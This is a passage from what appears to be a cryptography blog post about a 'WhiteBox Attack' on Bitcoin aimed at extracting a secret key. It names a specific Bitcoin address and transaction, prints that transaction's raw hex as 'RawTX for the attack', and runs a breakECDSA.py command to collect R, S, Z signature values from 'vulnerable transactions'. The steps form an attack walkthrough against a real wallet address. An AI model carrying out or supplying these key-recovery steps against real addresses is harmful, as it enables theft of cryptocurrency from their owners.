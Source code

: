 
<h2>Prepare RawTX for the attack</h2>



<hr class="wp-block-separator has-alpha-channel-opacity">



<blockquote class="wp-block-quote">
<p><strong><a href="https://btc1.trezor.io/address/1A1DUHhe6ENKxj4Qebs5Xs63pfWwRQazsY" target="_blank" rel="noreferrer noopener">1A1DUHhe6ENKxj4Qebs5Xs63pfWwRQazsY</a></strong></p>



<p><a href="https://btc1.trezor.io/tx/6c857473097543b32702c5f731a3e4c5cb01a1a5ae4bcd1a297b5848acbe8aba">https://btc1.trezor.io/tx/6c857473097543b32702c5f731a3e4c5cb01a1a5ae4bcd1a297b5848acbe8aba</a></p>
</blockquote>



<figure class="wp-block-image"><img decoding="async" src="./We implement WhiteBox Attack on Bitcoin with differential errors according to the research scheme of Eli Biham and Adi Shamir to extract the secret key - CRYPTO DEEP TECH_files/image-29-1024x135.png" alt="We implement WhiteBox Attack on Bitcoin with differential errors according to the research scheme of Eli Biham and Adi Shamir to extract the secret key" class="wp-image-1609"></figure>



<pre class="wp-block-code"><code>RawTX = 010000000183635783312a2792b673755da31df935ec22ff9916b4b43b4cefed644cb55a910b0000006b483045022100af4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f2602200a9394acbcb515f16df5d2f94b970b3d9da0c91a7d372d62794f2234b40cd562012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff014e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000
</code></pre>



<h2>Now we need to get all R, S, Z values ​​from all vulnerable transactions</h2>



<p>Let’s use the breakECDSA.py script</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 010000000183635783312a2792b673755da31df935ec22ff9916b4b43b4cefed644cb55a910b0000006b483045022100af4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f2602200a9394acbcb515f16df5d2f94b970b3d9da0c91a7d372d62794f2234b40cd562012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff014e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000
</code></pre>



<figure class="wp-block-image"><img decoding="async" src="./We implement WhiteBox Attack on Bitcoin with differential errors according to the research scheme of Eli Biham and Adi Shamir to extract the secret key - CRYPTO DEEP TECH_files/image-30-1024x287.png" alt="We implement WhiteBox Attack on Bitcoin with differential errors according to the research scheme of Eli Biham and Adi Shamir to extract the secret key" class="wp-image-1611"></figure>
